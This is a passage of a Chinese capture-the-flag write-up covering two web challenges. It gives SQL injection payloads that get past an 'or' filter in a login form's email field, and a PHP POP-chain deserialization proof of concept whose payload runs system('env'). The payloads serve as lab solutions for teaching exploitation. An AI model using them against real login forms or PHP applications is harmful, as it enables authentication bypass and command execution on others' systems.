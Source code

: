 存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## pop moe

预期解：

更多详细[pop链构造]serialize/deserialize介绍请见cafebabe的博客 http://blog.steesha.cn/archives/138/

POC

```PHP
<?php
highlight_file(__FILE__);

class class000 {
    private $payl0ad;
    protected $what;

    public function __construct()
    {
        $this->payl0ad = 1;
        $this->what = new class001;
    }
}

class class001 {
    public $payl0ad;
    public $a;
    
    public function __construct()
    {
        $this->a = new class002;
        $this->payl0ad = 'dangerous';
    }
}

class class002 {
    private $sec;
    
    public function __construct()
    {
        $this->sec = new class003;
    }
}

class class003 {
    public $mystr;
    
    public function __construct()
    {
        $this->mystr = "system('env');";
    }
}

echo urlencode(@serialize(new class000));
```
